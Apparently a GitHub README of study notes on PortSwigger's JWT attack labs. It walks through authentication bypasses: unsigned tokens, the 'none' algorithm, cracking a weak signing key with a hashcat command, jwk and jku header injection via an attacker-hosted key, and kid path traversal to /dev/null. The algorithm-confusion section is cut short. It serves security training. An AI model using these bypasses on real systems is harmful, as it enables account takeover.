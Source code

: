 # [JWT attacks](https://portswigger.net/web-security/jwt)

## Lab

- apprentice:
  - [1. JWT authentication bypass via unverified signature](./lab/1.%20JWT%20authentication%20bypass%20via%20unverified%20signat.md)
  - [2. JWT authentication bypass via flawed signature](./lab/2.%20JWT%20authentication%20bypass%20via%20flawed%20signature.md)
- practitioner:
  - [3. JWT authentication bypass via weak signing key](./lab/3.%20JWT%20authentication%20bypass%20via%20weak%20signing%20key.md)
  - [4. JWT authentication bypass via jwk header inject](./lab/4.%20JWT%20authentication%20bypass%20via%20jwk%20header%20inject.md)
  - [5. JWT authentication bypass via jku header inject](./lab/5.%20JWT%20authentication%20bypass%20via%20jku%20header%20inject.md)
  - [6. JWT authentication bypass via kid header path traversal](./lab/6.%20JWT%20authentication%20bypass%20via%20kid%20header%20path%20traversal.md)
- expert:
  - [7. JWT authentication bypass via algorithm confusion](./lab/7.%20JWT%20authentication%20bypass%20via%20algorithm%20confusion.md)

## Detect JWT

use burpsuite's extension called jwt editor, in HTTP history, any request that contains jwt will be green:
![detect.png](./img/detect.png)

## Exploit

1. server do not verify signature:

    - catch a request to account page contains jwt
    - use burp's jwt editor
    - directly edit jwt's body part
    - send to server

    - [lab](./lab/1.%20JWT%20authentication%20bypass%20via%20unverified%20signat.md)

2. server accept none alg:

    - catch a request to account page contains jwt
    - use burp's jwt editor
    - choose "attack" -> "none" Signing algorithm
    - send to server

    - [lab](./lab/2.%20JWT%20authentication%20bypass%20via%20flawed%20signature.md)

3. weak symmetric key:
    - catch a jwt
    - use hashcat to bruteforce:

    ```powershell
    kali@kali:/mnt/d/Downloads/hashcat-5.1.0/hashcat-5.1.0$ ./hashcat64.exe -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt.secrets.list

    kali@kali:/mnt/d/Downloads/hashcat-5.1.0/hashcat-5.1.0$ ./hashcat64.exe -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt.secrets.list --show

    eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV                                                                                                           V4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0:secret1
    ```

    - base64 decode key
    - generate new symmetric key using jwt editor, replace "k" with b64decoded key
    - edit jwt's body, sign with new generated key
    - send

    - [lab](./lab/3.%20JWT%20authentication%20bypass%20via%20weak%20signing%20key.md)

4. server trusted on the "jwk" header, which contains key and can be added or modified on client-side:
    - catch a request to account page contains jwt
    - use burp's jwt editor
    - generate new RSA key
    - copy key to header:

    ```json
    {
        "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
        "typ": "JWT",
        "alg": "RS256",
        "jwk": {
            "p": "-m6TGEZy1OEuMUc9D8ws1FTtAyaD2OVpGBDauMOIVmbRKFkkaHfAR-qk7A1szo-VtW4mZ3vkD-9bGRNQ7ttEFhaPz1iArG0gveJTcdliLoaGxL9aVEWlXF6wJtKcn9HPaPxQzMWmrEOr1g4yb8yUmrWZeCiGATSYgjKvVEwULuE",
            ...
            "e": "AQAB",
            "kid": "2b02f383-bc32-45ff-8067-8079b70b90e8",
            ...
        }
    }
    ```

    - edit jwt's body
    - sign jwt, choose "update alg, type, kid" to automatically update the kid in the header to be the same as the kid in the newly created rsa key.
    - send

    - [lab](./lab/4.%20JWT%20authentication%20bypass%20via%20jwk%20header%20inject.md)

5. server trusted on the "jwu" header, which contains url to key and can be added or modified on client-side:
    - catch a request to account page contains jwt
    - generate new rsa key using burp's jwt editor
    - save newly created rsa key to exploit server (portswigger lab) or pipedream
    - update "jku":

    ```json
    {
        "jku": "https://exploit-0ad2000e040deae3c19c3e2201550079.exploit-server.net/exploit",
        "kid": "5bf6df89-b3ec-45f5-817c-44136956a075",
        "typ": "JWT",
        "alg": "RS256"
    }
    ```

    - update jwt's body
    - sign jwt, choose "update alg, type, kid" to automatically update the kid in the header to be the same as the kid in the newly created rsa key.
    - send

    - [lab](./lab/5.%20JWT%20authentication%20bypass%20via%20jku%20header%20inject.md)

6. "kid" is vulnerable to path traversal
    - catch a request to account page contains jwt
    - generate new symmetric key using burp's jwt editor, replace "k" with base64_encode('\x00') = "AA=="
    - edit jwt's body
    - try different "kid":
      - "../../../../dev/null"
      - "../../../../../dev/null"
      - ...
    - sign
    - send

7. algorithm confusion with exposed key:
    - check `/jwks.json` or `/.well-known/jwks.json`

## Note

## References

[main](https://portswigger.net/web-security/jwt)
[lab](https://portswigger.net/web-security/all-labs#jwt)
